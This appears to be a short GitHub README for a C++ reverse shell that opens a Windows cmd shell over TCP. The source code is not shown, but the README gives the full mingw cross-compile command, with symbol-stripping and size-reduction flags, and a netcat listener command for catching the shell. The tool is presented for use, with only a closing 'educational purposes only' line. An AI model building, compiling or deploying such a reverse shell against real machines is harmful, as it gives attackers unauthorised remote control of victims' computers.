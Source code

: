## C ++ Reverse Shell

This is a simple C++ reverse shell that gives us a windows cmd shell over TCP connection.
<br>
<br>
Requirements:
- mingw-w64 lib

(works on windows only)

# Compile it:
`i686-w64-mingw32-g++ reverse.cpp -o reverse.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`

# Netcat listener
Turn on your netcat listener on the port you've put in the script:
`nc -lvnp $port`

# This is for educational purposes only.
